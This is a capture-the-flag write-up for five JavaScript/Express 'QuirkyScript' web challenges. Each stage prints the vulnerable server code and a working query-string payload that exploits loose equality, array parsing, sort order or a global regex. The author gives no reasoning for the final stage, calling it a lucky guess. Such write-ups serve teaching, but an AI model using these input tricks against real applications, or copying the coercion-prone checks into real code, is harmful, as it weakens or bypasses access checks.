

# QuirkyScript challenge

This challenge consists of 5 stages. Players must find vulnerabilities present in how Javascript handles data.

##### Web Challenge 1 (http://ctf.pwn.sg:8081/): 
This is the beautified js for web challenge 1.
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.first) {
        if (req.query.first.length == 8 && req.query.first == ",,,,,,,") {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```
The key here was to know how == and type coersion works.



Then we have to give our input as an array. 

> In express (node.js), both `?cars=Saab&cars=Audi` and `?cars[]=Saab&cars[]=Audi` get turned into arrays. However, `?cars=Saab` ends up as a string, but `?cars[]=Saab` is an array with a single element.
>  
> --[source](https://stackoverflow.com/questions/6243051/how-to-pass-an-array-within-a-query-string)

This is the winning url: `http://ctf.pwn.sg:8081/flag/?first=&first=&first=&first=&first=&first=&first=&first=`  

  
##### Web Challenge 2 (http://ctf.pwn.sg:8082/): 
This is the beautified js for web challenge 2. 
```
var flag = require("./flag.js");
var express = require('express')
var app = express()

app.get('/flag', function (req, res) {
    if (req.query.second) {
        if (req.query.second != "1" && req.query.second.length == 10 && req.query.second == true) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});

app.listen(31337)
```
0000000001 satisfies length=10 and ==true and !="1".

This is the winning url: `http://ctf.pwn.sg:8082/flag/?second=0000000001`  

##### Web Challenge 3 (http://ctf.pwn.sg:8083/):
This is the beautified js for web challenge 3.
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.third) {
        if (Array.isArray(req.query.third)) {
            third = req.query.third;
            third_sorted = req.query.third.sort();
            if (Number.parseInt(third[0]) > Number.parseInt(third[1]) && third_sorted[0] == third[0] && third_sorted[1] == third[1]) {
                res.send(flag.flag);
                return;
            }
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```
0x10=16 which is bigger than 8, but sorted as smaller than 8.

This is the winning url: `http://ctf.pwn.sg:8083/flag/?third[0]=0x10&third[1]=8`  


##### Web Challenge 4 (http://ctf.pwn.sg:8084/): 
This is the beautified js for web challenge 4.
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.fourth) {
        if (req.query.fourth == 1 && req.query.fourth.indexOf("1") == -1) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
``` 
Our input has to be equal to integer 1, but should not contain the character/element "1". `indexOf()` is a method of both strings and arrays. If we give the string "1" or even "1.0", it will be type coerced to integer 1, but it will not pass the test `req.query.fourth.indexOf("1") == -1`. What about an array? If our input is an array `[1.0]`, it will be type coerced to integer 1, and since there is no element `1` inside the array, it passes both tests.


This is the winning url: `http://ctf.pwn.sg:8084/flag/?fourth[]=1.0`  


##### Web Challenge 5 (http://ctf.pwn.sg:8085/):  
This is the beautified js for web challenge 5.
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    var re = new RegExp('^I_AM_ELEET_HAX0R$', 'g');
    if (re.test(req.query.fifth)) {
        if (req.query.fifth === req.query.six && !re.test(req.query.six)) {
            res.send(flag.flag);
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```
I have no idea why the hell this answer is correct (comment by Solomon). It was a lucky guess.

This is the winning url: `http://ctf.pwn.sg:8085/flag/?fifth=I_AM_ELEET_HAX0R&six=I_AM_ELEET_HAX0R` 
